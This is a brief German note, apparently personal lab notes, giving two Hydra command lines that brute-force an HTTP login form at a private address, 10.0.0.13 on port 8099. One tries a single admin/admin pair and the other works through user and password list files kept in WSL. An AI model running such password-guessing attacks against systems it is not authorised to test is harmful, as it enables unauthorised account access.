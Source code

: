 - WSL starten, dann:
hydra -l admin -p admin -s 8099 10.0.0.13 http-post-form "/login:username=^USER^&password=^PASS^:Please log in"

- oder mit Passwort Liste: (Liste liegt in WSL unter ~ oder /home/manu)
hydra -L user.list -P pass.list -s 8099 10.0.0.13 http-post-form "/login:username=^USER^&password=^PASS^:Please log in"
